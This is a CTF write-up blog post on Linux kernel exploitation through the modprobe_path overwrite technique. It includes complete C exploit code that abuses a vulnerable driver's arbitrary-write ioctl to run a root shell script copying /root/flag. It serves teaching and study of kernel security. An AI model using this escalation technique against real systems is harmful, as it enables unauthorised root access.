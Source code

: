 ```yaml
---
layout: post
title:  "Modprobe overwrite"
date:   2022-12-23
categories: ctf kernelexploit
description: modprobe overwrite - kernel exploitation 
tags: tip-binary ctf
---
```


# What is modprobe?

modprobe intelligently adds or removes a module from the Linux kernel: note that for convenience, there is no difference between _ and - in module names. modprobe looks in the module directory /lib/modules/'uname -r' for all the modules and other files, except for the optional /etc/modprobe.conf configuration file and /etc/modprobe.d directory (see modprobe.conf(5)). modprobe will also use module options specified on the kernel command line in the form of `<module>.<option>`.
src: https://linux.die.net/man/8/modprobe

modprobe can be use to add or remove loadable kernel module to the linux kernel. modprobe is installed on`/sbin/modprobe` or you can check by yourself `cat /proc/sys/kernel/modprobe`. 

# Modprobe overwrite

Since the path of modprobe is stored under the symbol `modprobe_path` in the kernel and in a writeable page, we can get the address by reading `/proc/kallsyms`, after that we can overwrite the address of `modprobe_path` with malicious path which pointed to other file in this case `evil.sh`. Then `evil.sh` will be executed when we execute unkown file type on the system. 

# Exploitation

in this post I will use a CTF challenge from Cyber Jawar Final 2022 called `Nakiri Ayame`, since the challenge require a kernel leak and this can be achieved by leaking the kernel via stacktrace or bruteforce the address I disabled the kaslr to make it esier :v (tawa penuh ke noob-an). Since we have arbitrary address write (AAW) primitive and address of the modprobe_path symbol, We can overwrite `modprobe_path` to malicious shellscript/binary so the binary/shellscript will executed as root

the kernel module will be installed at "/dev/ayame". we can interact with the kernel module with `ioctl()` and value `0x1337`.

<img src="/images/finalcj2022/1.png">

Our goal is to read the flag at `/root/flag` to do that we need to escalate from user to root. Firstly we can open the vuln kernel module 

{% highlight C %}
char *VULN_DRV = "/dev/ayame";

void open_dev_vuln(void){
    fd = open(VULN_DRV, O_RDWR);
    if(fd < 0){
        write(1,"[-] fail to open device\n",24);
    }else{
        write(1,"[+] device opened\n",18);
    }
}
{% end highlight %}

then we need to get the address of `modprobe_path` symbol, we can use this command to read the address since I disabled the kaslr protection :v 

    ffffffff82445b60 D modprobe_path

Now we can reverse `/tmp/x` and encoded the string as hex, this string will overwrite the modprobe_path value from `/sbin/modprobe` to `/tmp/x`. We overwrite the modprobe_path using arbitrary address write (AAW) primitive to our evil string. 

{% highlight C %}
void overwrite_modprobe(void){

    // ffffffff82445b60 D modprobe_path
    unsigned long modprobe_path = 0xffffffff82445b60;
    unsigned long evil_modprobe_path = 0x782f706d742f;


    buf2[0] = modprobe_path; // rdi
    buf2[1] = &evil_modprobe_path; // rsi
    buf2[2] = 0x50; // rdx

    ioctl(fd, 0x1337, &buf2);
}
{% endhighlight %}

Then we can trigger the bug so kernel will execute our `modprobe_path` with root user. This can be achived by create a shellscritpt/binary at `/tmp/x` since our goal to read `/root/flag` we can create a shellscript to copy the flag to /tmp and make it readable. Then we create unknown file type signature so the system will invoke `modprobe`.

{% highlight C %}
void trigger_modprobe(void){
    write(1,"[*] Returned to userland, setting up for fake modprobe\n", 56);
    
    system("echo '#!/bin/sh\ncp /root/flag /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[+] Run unknown file");
    system("/tmp/dummy");

    puts("[+] readflag ");
    system("cat /tmp/flag");

    exit(0);
}
{% endhighlight %}
 

Full exploit:

{% highlight C %}
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>

int64_t buf[0x400];
int64_t buf2[0x400];
int fd;

char *VULN_DRV = "/dev/ayame";

void open_dev_vuln(void){
    fd = open(VULN_DRV, O_RDWR);
    if(fd < 0){
        write(1,"[-] fail to open device\n",24);
    }else{
        write(1,"[+] device opened\n",18);
    }
}

// ffffc90000147ec0
void get_crash(void){
    // int64_t buf[0x400];
    buf2[0] = 0xdeadbeef;
    buf2[1] = &buf;
    buf2[2] = 0x41414141;
    
    for (int i = 0; i < 0x80; ++i){
        buf[i] = 0x4242424242424242;
    }

    ioctl(fd, 0x1337, &buf);
    // return 0;
}

void overwrite_modprobe(void){

    // ffffffff82445b60 D modprobe_path
    unsigned long modprobe_path = 0xffffffff82445b60;
    unsigned long evil_modprobe_path = 0x782f706d742f;


    buf2[0] = modprobe_path; // rdi
    buf2[1] = &evil_modprobe_path; // rsi
    buf2[2] = 0x50; // rdx

    ioctl(fd, 0x1337, &buf2);
}

void trigger_modprobe(void){
    write(1,"[*] Returned to userland, setting up for fake modprobe\n", 56);
    
    system("echo '#!/bin/sh\ncp /root/flag /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[+] Run unknown file");
    system("/tmp/dummy");

    puts("[+] readflag ");
    system("cat /tmp/flag");

    exit(0);
}


void main(void){
    open_dev_vuln();
    overwrite_modprobe();
    trigger_modprobe();
}

{% endhighlight %}


run the exploit and we get our `/root/flag` flag

<img src="/images/finalcj2022/2.png"/>

I don't cover how to send our exploit to the server since the challenge server already died. You can learn more how to send the exploit from <a href="https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/">here</a> kudos to the challenge author.

other useful resource:
<ul>
    <li>
        <a href="https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/"> lkmidas </a>
    </li>
    <li>
        <a href="https://sam4k.com/like-techniques-modprobe_path/"> sam4k </a>
    </li>
</ul>